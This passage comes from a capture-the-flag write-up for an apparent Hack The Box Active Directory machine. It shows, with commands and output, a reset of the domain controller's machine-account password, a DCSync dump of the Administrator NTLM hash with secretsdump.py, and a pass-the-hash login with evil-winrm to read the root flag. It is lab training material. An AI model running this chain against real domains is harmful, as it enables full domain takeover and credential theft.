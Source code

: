 > I see the account name under which the machine is authenticated - `DC$`.

> Having `Generic All` privileges, simply reset the password for `DC$`:

```bash

Set-LocalUser -Name 'DC$' -Password (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force)

```

> Since we have a compromised `Domain Controller` account we can simply request the **NTLM hash** of the **Domain Administrator** password
> via the `MS-DRSR` replication protocol which is used to replicate data between `Domain Controllers` using the `DCSync` technique.

---
> [!IMPORTANT]
`DCSync` - This is a technique where an attacker with DS-Replication-Get-Changes, DS-Replication-Get-Changes-All replication rights calls a
special DrsGetNCChanges function in the MS-DRSR (DRSUAPI) protocol and requests replication data from a domain controller. The domain controller trusts
the attacker with these privileges and returns the requested data.

---

> But since we already have a `Domain Controller` account (we are the `Domain Controller`), we don't need to imitate anything. We already have all the necessary rights:

```bash

secretsdump.py 'support.htb/DC$:NewPass123!'@10.10.11.174 -just-dc-user Administrator

```
```bash

Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::

```

> We use the received hash to connect to the system via `winrm`:

```bash

evil-winrm -i support.htb -u 'support.htb\Administrator' -H 'bb06cbc02b39abeddd1335bc30b19e26'

```
```bash

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
support\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
> I get the **last flag** in the directory - `C:\Users\Administrator\Desktop`:

```bash

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
ad13eec04dfcb18df6af1cf0e178dfe5
*Evil-WinRM* PS C:\Users\Administrator\Desktop>

```
> root flag - `ad13eec04dfcb18df6af1cf0e178dfe5`
